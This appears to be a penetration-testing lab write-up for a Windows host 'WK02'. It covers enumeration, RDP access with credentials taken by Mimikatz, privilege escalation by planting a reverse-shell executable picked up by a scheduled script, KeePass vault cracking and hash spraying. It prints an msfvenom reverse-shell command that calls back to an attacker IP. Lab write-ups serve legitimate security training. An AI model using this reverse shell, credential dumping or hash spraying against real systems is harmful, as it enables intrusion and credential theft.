








---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# WK02

## Enumeration

```
Nmap scan report for 172.16.159.15
Host is up (0.038s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-07-30T22:37:15+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=WK02.relia.com
| Not valid before: 2024-05-15T11:50:23
|_Not valid after:  2024-11-14T11:50:23
| rdp-ntlm-info: 
|   Target_Name: RELIA
|   NetBIOS_Domain_Name: RELIA
|   NetBIOS_Computer_Name: WK02
|   DNS_Domain_Name: relia.com
|   DNS_Computer_Name: WK02.relia.com
|   DNS_Tree_Name: relia.com
|   Product_Version: 10.0.22000
|_  System_Time: 2024-07-30T22:36:32+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.11.X|2.1.X (85%)
OS CPE: cpe:/o:ibm:zos:1.11 cpe:/o:ibm:zos:2.1
Aggressive OS guesses: IBM z/OS 1.11 (85%), IBM z/OS 2.1 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


## Foothold

Initial access was obtained via RDP as `andrea` whose credentials were obtained with [Mimikatz on `INTRANET`](intranet.md#mimikatz):

<figure><figcaption><p>Foothold as andrea</p></figcaption></figure>

## Privilege Escalation

### Updater Scheduler

While examining the `C:\` drive of the machine I find a file called `schedule.ps1`:


```powershell

try {
    & C:\updatecollector\updatecollctor.exe

} catch {

    Write-Output "[-] Updates couldn't be collected!"
    Write-Output "[!] Update cache will be used"
}

copy C:\Users\milana\beyondupdater.exe C:\updater\beyondupdater.exe
Start-Sleep -Seconds 5
& "C:\updater\beyondupdater.exe"
Start-Sleep -Seconds 5
del C:\updater\beyondupdater.exe
```


Examining this script it seems it will copy an executable from `milana`'s home directory into the `C:\updater` directory. Presumably some automated job runs it then.

I use `icacls` to examine the directory and can see only admins and `milana` have full access to the folder:

<figure><figcaption><p>Updater folder permissions</p></figcaption></figure>

It seems the most likely path to escalation is to:

1. Overwrite `C:\Users\milana\beyondupdater.exe` with a reverse shell or something
2. Copy it into `C:\updater` and see what happens

Unfortunately I cannot execute step 1 as `andrea`. But then I have an idea. There is another folder in the script: `C:\updatecollector`. I decide to see if I can access that one and I can. I can also create files which I tested by creating `test.txt`:

<figure><figcaption><p>Access to updatecollector directory</p></figcaption></figure>

#### Crafting Payload

I use msfvenom to craft myself a payload for the machine:


```bash
msfvenom -p windows/x64/shell_reverse_tcp -a x64 --platform windows LPORT=135 LHOST=192.168.45.154 -f exe -o updatecollctor.exe
```


* I copy/paste the exact binary name from the script. It is tempting to call it "`updatecollector.exe`" but in examining the script I notice it is misnamed "`updatecollctor.exe`" in the script so that is what my binary needs to be called.

I then copy my created file into `C:\updatecollector` and wait a bit. I quickly get a shell as `milana`:

<figure><figcaption><p>Elevated shell</p></figcaption></figure>

`milana` is a member of the machine's `Administrators` group so I now have elevated access.

## Post-Exploit

### KeePass

Given that KeePass seems to be used heavily in this company I do a quick search for KeePass vaults (`.kdbx` files) and find one in `milana`'s `Documents` directory. I transfer it back to my machine and attempt cracking:

<figure><figcaption><p>Cracking KeePass</p></figcaption></figure>

The vault only contains one item which is an SSH key for a machine referenced as `BACKUP`:

<figure><figcaption><p>SSH key in vault</p></figcaption></figure>

### Mimikatz

Download and run Mimikatz:

<figure><figcaption><p>Milana hash</p></figcaption></figure>

I spray the hash around. It has pretty broad SMB access, no WinRM, and only RDP to this machine:

<figure><figcaption><p>Validate milana</p></figcaption></figure>
